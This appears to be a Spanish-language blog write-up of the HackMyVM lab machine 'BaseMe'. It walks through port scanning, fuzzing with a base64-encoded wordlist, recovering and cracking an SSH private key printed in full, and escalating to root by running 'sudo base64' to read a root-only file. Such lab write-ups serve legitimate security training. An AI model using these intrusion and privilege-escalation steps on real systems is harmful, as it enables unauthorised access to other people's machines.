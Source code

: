 ```yaml
---
date: 2022-05-2 23:48:05
layout: post
title: BaseMe - HackMyVm
subtitle: 
description: >-
    BaseMe es una máquina de nivel fácil de la plataforma HackMyVm en la que tocaremos mucho Base64 y crackeo de RSA.
image: /assets/images/HMV/baseme-HackMyVM/previsualización.jpg
optimized_image: /assets/images/HMV/baseme-HackMyVM/previsualización.jpg
category: blog
tags:
  - Linux
  - blog
  - HackMyVM
author: elc4br4
paginate: true
---
```


# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 ca:09:80:f7:3a:da:5a:b6:19:d9:5c:41:47:43:d4:10 (RSA)
|   256 d0:75:48:48:b8:26:59:37:64:3b:25:7f:20:10:f8:70 (ECDSA)
|_  256 91:14:f7:93:0b:06:25:cb:e0:a5:30:e8:d3:d3:37:2b (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos dos puertos abiertos, el 22 (ssh) y el 80 (http).

# Explotación

Abro el navegador para ver que tenemos en el puerto 80.

Al abrirlo encuentro una cadena codificada en base64 y varias palabras que podríamos usar más tarde como diccionario para algún tipo de ataque que lo requiera.

![](/assets/images/HMV/baseme-HackMyVM/dicbase64.png)


Decodificamos la cadena:

```bash
❯ echo "QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK " | base64 -d
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```

Todo lo necesario ha de estar en base64 según dice la nota.

A continuación procedo a fuzzear para buscar posibles rutas en el servidor, pero antes de nada debemos codificar las palabras del diccionario que usaremos en base64.

Yo usaré un pequeño script para realizar esta tarea de forma automatizada y más rápido.


```bash
#!/bin/bash

for i in `cat common.txt` ; do echo $i | base64 >> base64enc.txt ; done
```

Codifico el diccionario common.txt de la ruta `/usr/share/wordlists/dirb/common.txt` y ahora ya sí podemos fuzzear usando el diccionario.

```bash
❯ gobuster -u http://192.168.0.27 -w base64enc.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.0.27/
[+] Threads      : 10
[+] Wordlist     : base64enc.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/05/02 01:50:32 Starting gobuster
=====================================================
/aWRfcnNhCg== (Status: 200)
/cm9ib3RzLnR4dAo= (Status: 200)
=====================================================
2022/05/02 01:50:34 Finished
=====================================================
```

Como podemos ver tenemos las siguientes rutas:

```bash
/aWRfcnNhCg== 
/cm9ib3RzLnR4dAo=
```

Accedo desde el navegador a la ruta `/aWRfcnNhCg==` y se me descarga un archivo, la otra ruta no nos dio nada que nos pudiera servir.

![](/assets/images/HMV/baseme-HackMyVM/rsaenc.png)

Decodifico la cadena y es una clave RSA.

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```

Asignamos permisos 600 a la clave id_rsa

`chmod 600 id_rsa`

Intento usar la clave para loguearme por ssh pero me pide la contraseña, por lo tanto debo crackear la id_rsa para obtener la contraseña.

Para crackear la clave RSA puedo usar **ssh2john** pero usaré otra herramienta:

[https://github.com/d4t4s3c/RSAcrack](https://github.com/d4t4s3c/RSAcrack)

Usaré la herramienta RSAcrack creada por d4t4s3c.

Pero antes de nada debemos recordar que todo ha de estar codificado en base64 y que necesitamos un diccionario... Y me acordé de la lista de palabras que encontramos al comienzo del CTF.

Codifico la lista de palabras:

```bash
aWxvdmV5b3UK
eW91bG92ZXlvdQo=
c2hlbG92ZXN5b3UK
aGVsb3Zlc3lvdQo=
d2Vsb3ZleW91Cg==
dGhleWhhdGVzbWUK
```

Y procedo a crackear la clave:


![](/assets/images/HMV/baseme-HackMyVM/rsa.gif)


Ya tenemos la contraseña, ahora debemos loguearnos por ssh usando la misma.

Me logueo por ssh y ya podremos leer la flag user.txt

```bash
❯ ssh lucas@192.168.0.27 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux baseme 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep  2 20:13:28 2022 from 192.168.0.52
```

# Escalada de Privilegios

Ahora procedo a escalar privilegios para leer la bandera root.txt

Lanzando `sudo -l` puedo ver que puedo ejecutar el binario base64 como root sin contraseña.

Asique me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/base64/](https://gtfobins.github.io/gtfobins/base64/)


![](/assets/images/HMV/baseme-HackMyVM/base64gtfo.png)

Si ejecutamos el comando podemos leer cualquier archivo del sistema.


`sudo /usr/bin/base64 /root/root.txt | base64 --decode` 

Y listo, ya tenemos la flag root.




